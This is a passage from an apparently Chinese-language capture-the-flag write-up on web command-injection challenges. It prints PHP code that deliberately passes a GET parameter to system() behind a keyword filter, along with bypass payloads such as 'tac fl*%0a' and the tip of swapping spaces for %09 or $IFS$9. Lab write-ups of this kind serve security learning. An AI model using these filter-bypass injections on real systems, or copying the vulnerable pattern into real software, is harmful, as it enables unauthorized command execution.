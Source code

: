 ```php
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`;|cat|flag`

小问题

```
tac fl*%0a

or

tac f*||

...
//记得转url编码
```

#### web45

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`;|cat|flag`和空格

可以用%09或$IFS$9代替空格
